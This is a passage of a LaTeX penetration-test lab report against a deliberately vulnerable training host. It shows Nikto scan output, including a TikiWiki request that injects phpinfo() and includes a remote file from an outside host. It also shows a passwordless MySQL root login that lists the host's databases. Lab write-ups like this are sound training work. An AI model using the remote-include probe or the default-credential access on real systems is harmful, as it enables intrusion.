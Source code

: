 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=Bash]
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-40478: /tikiwiki/tiki-graph_formula.php?w=1&h=1&s=1&min=1&max=2&f[]=x.tan.phpinfo()&t=png&title=http://cirt.net/rfiinc.txt?: TikiWiki contains a vulnerability which allows remote attackers to execute arbitrary PHP code.
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 6474 items checked: 3 error(s) and 23 item(s) reported on remote host
+ End Time:           2016-02-12 14:12:41 (GMT-5) (145 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
\end{lstlisting}

\subsection{Tools}

* nikto
* sqlmap
* wget -R
* httpprint

\newpage
\section{Exploitation}
\subsection{Exploits for metasploitable.sait230.ca}

I noticed that port 3306 was open on this host from the reconasance phase. This port
is used by mysql. I decided to try to connect to this port using the mysql client and 
using the default mysql installation user `root'.

\begin{lstlisting}
root@bt-was:~# mysql -uroot -h metasploitable.sait230.ca
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36239
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Copyright (c) 2000, 2011, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information\_schema |
| dvwa               |
| metasploit         |
| mysql              |
| owasp10            |
| tikiwiki           |
| tikiwiki195        |
+--------------------+
7 rows in set (0.00 sec)

mysql> 

\end{lstlisting}
\end{document}

